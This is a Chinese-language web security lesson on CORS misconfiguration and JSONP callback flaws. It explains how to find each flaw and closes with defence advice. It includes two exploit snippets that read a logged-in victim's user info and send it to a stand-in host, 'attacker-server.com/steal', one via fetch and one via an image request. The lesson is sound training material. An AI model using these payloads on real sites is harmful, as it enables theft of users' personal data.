




# 网络安全就业推荐 - 第26课：CSRF漏洞-CORS跨域漏洞及JSONP漏洞利用 🔓

在本节课中，我们将要学习两种特殊的跨站请求伪造（CSRF）漏洞：CORS跨域漏洞和JSONP漏洞。这两种漏洞属于“读取型”CSRF，攻击者可以利用它们窃取用户的敏感数据，而不仅仅是执行操作。我们将了解它们的原理、如何寻找以及如何利用。

## 概述：同源策略与跨域解决方案


上一节我们介绍了操作型CSRF，本节中我们来看看读取型CSRF。要理解CORS和JSONP漏洞，首先需要了解浏览器的**同源策略**。

**同源策略**是浏览器的核心安全策略之一。它规定，来自不同源（协议、域名、端口任一不同）的脚本，在没有明确授权的情况下，不能读取对方的资源。这限制了不同源之间的数据交互，旨在保护用户信息安全。

然而，在现代Web开发中，前后端分离的架构非常普遍，经常需要从一个域名的网页去请求另一个域名的API接口数据，这就产生了**跨域**需求。

为了解决跨域问题，开发者采用了多种技术，其中最常见的是：
*   **CORS**：跨域资源共享
*   **JSONP**：JSON with Padding

这两种技术本意是解决合法跨域通信的问题，但如果配置不当，就会演变为安全漏洞，允许攻击者跨域读取用户的敏感数据。

## CORS跨域漏洞

CORS是一种W3C标准，它允许服务器通过设置特定的HTTP响应头，来声明哪些源可以访问其资源。

### 漏洞原理

CORS漏洞的成因在于服务器配置了过于宽松的跨域策略。具体来说，当服务器在响应头中设置 `Access-Control-Allow-Origin` 字段的值为 `*`（允许所有源）或动态反射了请求头中的 `Origin` 值时，就可能导致漏洞。

以下是CORS交互的关键步骤：
1.  浏览器在发起跨域请求时，会自动在请求头中添加 `Origin` 字段，表明请求来自哪个源。
2.  服务器检查 `Origin` 值，如果允许该源访问，则在响应头中返回 `Access-Control-Allow-Origin: [Origin值]`。
3.  浏览器检查响应头，如果 `Access-Control-Allow-Origin` 的值与当前页面的源匹配（或是`*`），则允许页面读取响应数据；否则，浏览器会阻止脚本访问响应内容。

**漏洞点**：如果服务器将 `Access-Control-Allow-Origin` 设置为 `*`，或未经验证就直接将请求中的 `Origin` 值反射到响应头中，那么任何网站都可以通过脚本读取该接口返回的数据。

### 如何寻找CORS漏洞





寻找CORS漏洞，主要就是检查目标接口的响应头。

以下是判断步骤：
1.  使用浏览器开发者工具或Burp Suite抓取目标网站的请求。
2.  观察响应头中是否包含 `Access-Control-Allow-Origin` 字段。
3.  尝试修改请求头中的 `Origin` 值为一个任意值（如 `https://attacker.com`）。
4.  如果响应头中的 `Access-Control-Allow-Origin` 值也随之变成了 `https://attacker.com`，或者本身就是 `*`，则存在CORS配置不当的漏洞。

### 漏洞利用

存在CORS漏洞意味着攻击者可以构造一个恶意页面，当受害者（已登录目标网站）访问该页面时，恶意脚本就能跨域读取到目标网站接口返回的敏感数据（如个人信息、收货地址等），并发送到攻击者控制的服务器。

以下是利用代码的核心逻辑：

```html
<script>
    // 定义要攻击的接口URL
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://vulnerable-site.com/api/userinfo',true);
    req.withCredentials = true; // 携带Cookie
    req.send();

    function reqListener() {
        // 将窃取到的数据发送到攻击者的服务器
        var data = this.responseText;
        fetch('https://attacker-server.com/steal?data=' + encodeURIComponent(data));
    };
</script>
```

攻击者只需将包含此类代码的页面发送给受害者，即可窃取数据。


## JSONP漏洞

JSONP是一种利用 `<script>` 标签不受同源策略限制的特性来实现跨域数据获取的古老技术。

### 漏洞原理

由于 `<script src="...">` 可以加载任意域下的JS文件，JSONP利用这一点来获取数据。服务器返回的不是纯JSON，而是一段JavaScript函数调用代码，函数名由客户端通过 `callback` 参数指定。

一个正常的JSONP请求与响应如下：
*   请求：`https://api.example.com/userinfo?callback=handleData`
*   响应：`handleData({"name": "Alice", "email": "alice@example.com"});`

前端页面预先定义好 `handleData` 函数，当 `<script>` 标签加载完响应后，就会执行这个函数，从而处理数据。

**漏洞点**：如果JSONP接口对 `callback` 参数没有进行严格的过滤和校验，攻击者就可以构造恶意页面，指定 `callback` 为攻击者控制的函数，从而窃取数据。




### 如何寻找JSONP漏洞

寻找JSONP漏洞，主要是寻找带有 `callback`（或类似名称，如 `cb`, `jsonp`）参数的接口。

以下是判断步骤：
1.  在网站中寻找返回JSON格式数据的接口。
2.  尝试在请求参数中添加 `callback=test` 或 `jsonp=test`。
3.  如果响应内容从 `{"data": "value"}` 变成了 `test({"data": "value"});` 或类似的JavaScript函数调用格式，则说明该接口支持JSONP。
4.  进一步测试，修改 `callback` 值为任意值，观察响应是否动态变化。如果变化，则存在JSONP漏洞。

### 漏洞利用

攻击者可以构造一个恶意页面，通过 `<script>` 标签调用存在漏洞的JSONP接口，并定义一个函数来接收敏感数据，然后将其外发。


以下是利用代码示例：

```html
<script>
// 定义接收数据的函数
function stealData(data) {
    // 将窃取到的数据发送到攻击者的服务器
    var img = new Image();
    img.src = 'https://attacker-server.com/steal?data=' + encodeURIComponent(JSON.stringify(data));
}
</script>
<!-- 利用 script 标签跨域请求，并指定回调函数为 stealData -->
<script src="https://vulnerable-site.com/api/userinfo?callback=stealData"></script>
```

## 防御建议

了解了攻击原理，我们可以采取以下措施进行防御：

**针对CORS漏洞：**
*   避免使用 `Access-Control-Allow-Origin: *`。应在服务器端配置明确允许访问的白名单域名列表。
*   不要简单地反射请求中的 `Origin` 头。应对 `Origin` 值进行严格的校验，只允许受信任的源。
*   对于需要携带凭证（Cookies）的请求，应同时设置 `Access-Control-Allow-Credentials: true` 并严格限制 `Access-Control-Allow-Origin` 不能为 `*`。

**针对JSONP漏洞：**
*   严格过滤 `callback` 参数，只允许包含字母、数字和下划线的合法函数名。
*   在响应头中设置 `Content-Type: application/javascript`，并添加严格的字符集。
*   考虑弃用JSONP，转而使用更安全、功能更强大的CORS机制来实现跨域。

## 总结


本节课中我们一起学习了两种读取型的CSRF漏洞：CORS跨域漏洞和JSONP漏洞。
*   **CORS漏洞**源于服务器跨域策略配置过于宽松，允许任意源或未经验证的源访问敏感接口。
*   **JSONP漏洞**源于对 `callback` 参数校验不严，导致攻击者可以控制响应内容的执行。



它们的共同点是允许攻击者构造恶意页面，诱骗已登录的用户访问，从而**跨域窃取**该用户在目标网站上的敏感数据。在漏洞挖掘中，需要重点关注返回用户个人信息的接口是否存在此类配置问题。防御的关键在于对跨域请求的来源进行严格、明确的限制。